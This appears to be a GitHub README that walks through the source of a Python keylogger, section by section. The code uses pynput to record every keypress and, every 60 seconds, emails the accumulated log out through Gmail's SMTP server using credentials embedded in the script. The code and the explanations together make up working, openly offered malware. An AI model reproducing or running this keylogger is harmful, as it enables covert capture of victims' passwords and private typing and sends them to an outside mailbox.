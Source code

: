 ```Changes Made:
	1.	Python 3 Interpreter Path: Updated the shebang to #!/usr/bin/env python3.
	2.	String Concatenation: Used += for string concatenation in append_to_log.
	3.	str(key.char) to key.char: Directly used key.char instead of converting it with str.
	4.	Exception Handling for Email Sending: Added a try-except block to handle SMTP errors gracefully.
	5.	key == key.space Updated: Changed to key == pynput.keyboard.Key.space for clarity and compatibility.
	6.	Formatted Strings: Used f-strings for better readability.
	7.	Minor Syntax Adjustments: Ensured compatibility with Python 3 syntax.

Make sure you have the required modules installed:
pip install pynput
```

```
class Keylogger:
    def __init__(self, time_interval, email, password):
        self.log = "Keylogger started"
        self.interval = time_interval
        self.email = email
        self.password = password
```

<ul>
  <li>self.log: A string to store logged keypresses.</li>
  <li>self.interval: Time interval (in seconds) for sending logs via email.</li>
  <li>self.email: Email address used for sending logs.</li>
  <li>self.password: Password for the email account.</li>
</ul>

	

Purpose: Initialize the Keylogger object with required parameters.

```
  def append_to_log(self, string):
      self.log += string
```
<ul>
  <li>Appends each logged keypress (string) to the self.log variable.</li>
</ul>


Purpose: Accumulate keypresses into a single string for periodic reporting.

```
def process_key_press(self, key):
    try:
        current_key = key.char
    except AttributeError:
        if key == pynput.keyboard.Key.space:
            current_key = " "
        else:
            current_key = f" {str(key)} "
    self.append_to_log(current_key)
```

    Purpose: Captures and processes every keypress event.
	Parameter:
	    key: The key event object captured by pynput.
	Behavior:
	    Printable Keys: If key.char is available, log it directly.
	    Special Keys: If key.char isn’t available:
		    Log " " for Key.space.
	    	Log the key name with spaces around it (e.g., " [Shift] ").
	Appends Keypress: Calls append_to_log to add the processed key to self.log.

    Examples:
		Pressing A → Logs: "A"
		Pressing Shift → Logs: " [Shift] "

```
def report(self):
    self.send_mail(self.email, self.password, "\n\n" + self.log)
    self.log = ""
    timer = threading.Timer(self.interval, self.report)
    timer.start()
```

	Purpose: Sends the accumulated key logs via email at regular intervals.
	Behavior:
		Uses send_mail to send the current self.log as an email.
		Clears the self.log after sending.
		Restarts the timer to trigger report after self.interval seconds.

    Example:
		Interval: 60 seconds → Log is emailed every 60 seconds.

```
def send_mail(self, email, password, message):
    try:
        server = smtplib.SMTP("smtp.gmail.com", 587)
        server.starttls()
        server.login(email, password)
        server.sendmail(email, email, message)
        server.quit()
    except Exception as e:
        print(f"Failed to send email: {e}")
```


	Purpose: Sends the key logs via email using SMTP.
	Parameters:
		email (str): Sender’s email address.
		password (str): Password for the email account.
		message (str): Content of the log to be emailed.
	Behavior:
		Connects securely to Gmail’s SMTP server (smtp.gmail.com) on port 587.
		Starts a secure connection with starttls.
		Authenticates with the email and password.
		Sends the log as an email.
		Closes the connection with quit.
	Error Handling: If an error occurs during the process, it prints an error message.

```
Example Error Message:
Failed to send email: [Error details]
```
```
def start(self):
    keyboard_listener = pynput.keyboard.Listener(on_press=self.process_key_press)
    with keyboard_listener:
        self.report()
        keyboard_listener.join()
```

	Purpose: Starts the keylogger to listen for keyboard events indefinitely.
	Behavior:
		Initializes a pynput.keyboard.Listener.
		Attaches process_key_press to handle every keypress.
		Starts the periodic report method.
		Keeps the listener running indefinitely with keyboard_listener.join().

```
Flow:
	1.	Start listening to keyboard events.
	2.	Log keypresses via process_key_press.
	3.	Periodically send logs via report.
	4.	Keep running until manually stopped.
```

```
if __name__ == "__main__":
    keylogger = Keylogger(time_interval=60, email="your_email@example.com", password="your_password")
    keylogger.start()
```

	Purpose: Initializes and starts the keylogger script when executed directly.
	Behavior:
		Creates an instance of Keylogger.
		Sets the time interval, email, and password.
		Starts the keylogger with start().
